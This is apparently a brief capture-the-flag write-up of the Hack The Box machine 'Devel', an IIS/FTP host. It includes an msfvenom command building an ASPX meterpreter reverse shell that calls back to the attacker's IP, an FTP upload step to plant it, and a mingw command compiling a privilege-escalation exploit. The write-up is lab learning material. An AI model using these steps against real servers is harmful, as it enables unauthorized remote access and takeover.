 # Devel

> Nashia Holloway | May 19th, 2020

## Enumeration

**10.10.10.5**

FTP and IIS7 are running on ports 21 and 80 respectively. Nothing of interest on the FTP server. There's not much we can do.

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.46 LPORT=1234 -f aspx > shell.aspx
```

## Initial Access

This creates webshell we can access with a meterpreter listener. On the FTP server:

```
put ./shell.aspx
```

Navigate to `10.10.10.5/shell.aspx` to spawn the shell.

## Privilege Escalation

We don't have access to the `babis` user to get the user flag, so we'll try to privesc and get both user and root at the same time.

**followed walkthrough**

FTP in binary mode:

```
ftp> binary
```

Compile windows executable in kali:

```
i686-w64-mingw32-gcc exploit.c -o exploit.exe –lws2_32
```
